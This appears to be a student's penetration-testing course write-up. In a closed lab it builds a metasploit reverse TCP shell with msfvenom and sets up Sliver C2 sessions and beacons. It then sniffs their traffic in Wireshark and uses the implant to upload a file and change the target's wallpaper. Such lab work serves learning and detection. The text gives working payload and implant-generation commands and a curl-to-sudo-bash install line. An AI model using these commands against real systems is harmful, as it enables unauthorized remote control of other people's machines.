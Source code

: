 +++
title = "H6 - C2 with sliver and metasploit"
date = "2025-10-02"
categories = ["pentesting-course"]
+++

# H6

---

### a) Sniffing the venom

#### Establishing the connection and packet capture

Like usual, I check to make sure the virtual machines are off the internet and communicate with each other fine. Nothing has changed in the setup so everything is working a ok.

I open up wireshark and start capturing traffic.

I am going to use the same payload I used in H5 which was as follows:
`msfvenom -a x86 --platform linux -p linux/x86/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -e generic/none -f elf` and remembering to open a port with `sudo ufw allow 4444/tcp`. 

Then I launch `msfconsole` and set all the parameters to match the payload and start the listening session with `exploit`. 

To establish the connection, I go to the target machine (ms2 vm) and
run the program. 

![Msfconsole](img/h6/msfconsole.png)

#### Going through packet captures

Checking into wireshark and stopping the capture, I filter with
`tcp.port==4444` as that is the port I decided to use. With that I can see the captured traffic between the host and target:

![Wirkeshark msfvenom](img/h6/wireshark_venom.png)

The port 4444 here raises some alarms as it is commonly used by metasploit for reverse shell connections.

---

### b) Creating a http connection with sliver

#### Sliver installation

Firstly, I'm installing sliver on my kali machine. The sliver github provides a single liner install `curl https://sliver.sh/install|sudo bash`. Trust me bro. During the installation, I was not clearly prompted for password at first, but if it seems to be stuck for you after running the one liner, just hit enter couple times and it should prompt you. After which running `sliver` should open up the program. [(Sliver Github 2025.)](https://github.com/BishopFox/sliver)

![Sliver](img/h6/sliver.png)

And it does! Ain't it like giga cool (ofhell).

Note: it is october 2. 2025 and this is the v1.5.43 instead of the newer, but unfinished 1.6 build, so if in the future some of the functionality here is due to change.

#### Establishing connection with sliver

So I setup wireshark in the background to capture packets. I am capturing *eth0* which is the interface I use for offline testing while *eth1* uses my actual eth to connect to the internet. This is the same setup as the previous section. Just wanted to mention it here.

![Ip a](img/h6/ipa.png)

Now, I familiarize myself with sliver by going over their provided getting started tutorial, which if I remember correctly does what I want to achieve here: establishing a http connection between the host and target.

So first I need to generate our implant which is the name sliver uses for malicious code run on the target machine [(Sliver 2025. Architecture.)](https://sliver.sh/docs?name=Architecture). 

I used the following command to generate the implant:
`generate -b 10.10.10.10 --os linux --skip-symbols --debug`

![Implant](img/h6/implant.png)

Next I ran the implant on the target machine, which is Debian13 machine running in the same network.

![Implant at target](img/h6/implant_target.png)

Using `sessions` we can see that our session has been established to the target machine:

![Sliver session](img/h6/session.png)

Lastly I run `use` and select the proper implant and `pwd` to see I am actually in the target machine:

![Target](img/h6/target.png)


[(Sliver 2025. Tutorials.)](https://sliver.sh/tutorials)


---

### c) Sniffing the sliver (*hihihihihihi*)

In the very short time I had the connection, I already have quite the wall in wireshark to look at:

![Wireshark sliver](img/h6/wireshark_sliver.png)

A lot of weird GET requests in fast intervals. Just the amount from a single address is quite concerning and the requests themselves don't help. 

---

### d) Modifing the connection in sliver.

So it would be beneficial if we could at least limit the calling home to be less... obsessive. Luckily there is a way to do just that. In the [sliver.sh's beacons vs sessions tutorial](https://sliver.sh/tutorials?name=2+-+Beacons+vs+Sessions) some of these methods are used, and that is what I am going to be doing as well.

The tutorial mentions sessions being a single constantly maintained TCP connection, while beacons can call home every so often. 
[(Sliver 2025. Beacons vs Sessions.)](https://sliver.sh/tutorials?name=2+-+Beacons+vs+Sessions)

So firstly we will create a new beacon with this in mind:

`generate beacon -b 10.10.10.10 --os linux -j 5 -S 15 --skip-symbols --debug --save cockball_the_movie_starring_ben_stiller`

I decided to make the executable more... *executable* by giving it an enticing name. Maybe more importantly, it was given the flags `-j 5` and `-S 15`. What I could gather from the documentation [sliver getting started.](https://sliver.sh/docs?name=Getting%20Started), -S stands for how often the beacon should callback in seconds. -j stands for jitter and adds a random delay in seconds to the callback. [(Sliver 2025. Getting Started.)](https://sliver.sh/docs?name=Getting%20Started)

So time to test it out. I run the executable on the target machine:

![Target](img/h6/target2.png)

Oh no! It seems you can't trust anything these days!!! Oh well. We get a callback from the beacon:

![Beacons](img/h6/beacons.png)

Here we can see the last check-in and the next one. Time to check out what wireshark has in store for us!

![L + n00b](img/h6/dummy.png)

Oopsie. Well I guess I'll have to let it run for couple of minutes.

![Wireshark sliver 2](img/h6/wireshark_sliver2.png)

Now the calls are much less frequent and come at varying times.

[(Sliver 2025. Beacons vs Sessions.)](https://sliver.sh/tutorials?name=2+-+Beacons+vs+Sessions)

---


### e) Using sliver's different functionalities.

I begin by using the beacon with `use` and finishing off the name with tab:

![Beacon use](img/h6/tab.png)

With `help` I can start checking out what kind of things I am able to do. Lets see if I can make the user's wallpaper to be a picture of Ben Stiller.

So I first need to get the picture to the target machine using the command `upload ben.png /home/user/Pictures/ben.png` which uploads file ben.png from our host to the target's Pictures directory:

![Ben](img/h6/ben.png)
Image can be found here: [(Benjamin Lee 2015.)](https://www.theguardian.com/film/filmblog/2015/aug/03/zoolander-2-teaser-trailer-ben-stiller)

Next I need to change the Ben to be the wallpaper, I know the target uses gnome, so with a quick google I found a AskUbuntu post that gives me the command needed [(AskUbuntu 2011.)](https://askubuntu.com/questions/66914/how-to-change-desktop-background-from-command-line-in-unity):

`execute gsettings set org.gnome.desktop.background picture-uri file:///home/user/Pictures/ben.png`

Now, did my magnificent plan work? One could probably use sliver to take a screenshot, but found it only prints black squares on my vm, which might have something to do with displays etc. So here is a manual screenshot of the target:

![Oh boy](img/h6/ohboy.png)

Now look at that! Amazing, truly!

---


### Sources

All the assignments this page is based on can be found at [Tero Karvinen](https://terokarvinen.com/tunkeutumistestaus/)

[Sliver Github 2025.](https://github.com/BishopFox/sliver)

[Sliver 2025. Tutorials.](https://sliver.sh/tutorials)

[Sliver 2025. Architecture.](https://sliver.sh/docs?name=Architecture)

[Sliver 2025. Beacons vs Sessions.](https://sliver.sh/tutorials?name=2+-+Beacons+vs+Sessions)
[Sliver 2025. Getting Started.](https://sliver.sh/docs?name=Getting%20Started)

[Benjamin Lee 2015. Long catwalk home: can Ben Stiller make audiences care about Zoolander 2?](https://www.theguardian.com/film/filmblog/2015/aug/03/zoolander-2-teaser-trailer-ben-stiller)
[AskUbuntu 2011. How to change desktop background from command line in Unity](https://askubuntu.com/questions/66914/how-to-change-desktop-background-from-command-line-in-unity)
